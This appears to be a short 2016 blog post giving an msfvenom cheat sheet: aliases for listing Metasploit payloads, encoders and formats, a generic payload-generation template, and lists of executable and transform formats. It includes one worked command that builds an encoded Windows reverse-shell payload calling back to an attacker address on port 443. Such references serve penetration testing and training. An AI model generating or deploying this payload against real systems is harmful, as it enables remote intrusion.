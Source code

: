 ```yaml
---
layout: post
title: "The msfvenom cheat sheet"
date: 2016-10-22
---
```

Here are simple msfvenom commands to help in quick payload generation.  

I love the msfvenom aliases that g0tmi1k setup in his [os-scripts](https://github.com/g0tmi1k/os-scripts). These will help in finding the correct payloads, encoders, and formats.  

Place these aliases in ~/.bash_aliases:  

> **`alias msfvenom-list-all='cat ~/.msf4/msfvenom/all'`**  
> **`alias msfvenom-list-nops='cat ~/.msf4/msfvenom/nops'`**  
> **`alias msfvenom-list-payloads='cat ~/.msf4/msfvenom/payloads'`**  
> **`alias msfvenom-list-encoders='cat ~/.msf4/msfvenom/encoders'`**  
> **`alias msfvenom-list-formats='cat ~/.msf4/msfvenom/formats'`**  

Finish the setup by running the following:

> **`mkdir -p ~/.msf4/msfvenom/`**  
> **`msfvenom --list > ~/.msf4/msfvenom/all`**  
> **`msfvenom --list nops > ~/.msf4/msfvenom/nops`**  
> **`msfvenom --list payloads > ~/.msf4/msfvenom/payloads`**  
> **`msfvenom --list encoders > ~/.msf4/msfvenom/encoders`**  
> **`msfvenom --help-formats 2> ~/.msf4/msfvenom/formats`**  

A basic msfvenom command.

> **`msfvenom -p <payload> LHOST=<Your IP> LPORT=<Your Port> -f <format> -e <encoder> -b <bad characters>`**  

A reverse shell example for windows that connects to attacker IP 10.10.10.10 on port 443. This is formatted in c and encode in x86/shikata_ga_nai with bad characters \x00 and \x04.

> **`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c -e x86/shikata_ga_nai -b "\x00\x04"`**  

Dont forget that we can build **exe**, **war**, **vbs**, and **asp** executables. Current formats supported by msfvenom are as follows:  

> **`Executable formats`**

>> **`asp, aspx, aspx-exe, axis2, dll, elf, elf-so, exe, exe-only, exe-service, exe-small, hta-psh, jar, loop-vbs, macho, msi, msi-nouac, osx-app, psh, psh-cmd, psh-net, psh-reflection, vba, vba-exe, vba-psh, vbs, war`**  

> **`Transform formats`**

>> **`bash, c, csharp, dw, dword, hex, java, js_be, js_le, num, perl, pl, powershell, ps1, py, python, raw, rb, ruby, sh, vbapplication, vbscript`**  
